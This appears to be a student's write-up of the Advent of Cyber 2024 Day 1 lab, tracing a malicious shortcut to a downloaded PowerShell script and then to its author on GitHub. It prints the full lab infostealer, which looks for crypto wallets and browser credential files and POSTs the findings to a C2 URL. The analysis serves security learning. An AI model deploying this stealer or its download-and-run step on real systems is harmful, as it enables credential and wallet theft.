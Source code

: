 # Advent Of Cyber 2024 🎄
Just a collection of what we did and learn on each day throughout the event.

## Day 01 (OPSEC)
So it basicly was about exploring a wesite which downloading a extra file with each download, when we use 'file' command we found it is a MS Windows Shortcut and then later to look at the meta-data this file was holding we used "Exiftool" to read it. We found it was running few powershell command which was disabling the restrictions and downloading the file from `"https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1"` and storing it in the `"C:\\ProgramData\\"` and then executing the script.

the script was :
```
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

The link of the script which is `"https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1"` so in here `MM-WarevilleTHM` is the github username of the person from which the script is downloading, now we know it's him but if we like to gather some more proof then, we look out for some unique part of the script `"Created by the one and only M.M"` and then try to search it on the github, which lead us to this issue:
`https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1` where user `MM-WarevilleTHM` was trying to ask questions about creating this script. 

when we go to his profile's username repository this is what we found:
```
- 🦹‍♂️ Hi, I’m M.M, also known as Mayor Malware. I run things in Wareville Town.
- 👀 This year, SOC-mas is not going to happen and I will do all I can to sabotage it.
- 🌱 I'll develop all necessary tools and plans to sabotage the event and frustrate the citizens of Wareville. One thing is to find someone to blame for all this. Maybe Glitch will take the blame.
- 📫 How to reach me? Find me around Wareville.
```

In Short:
We caught him. ✨😁
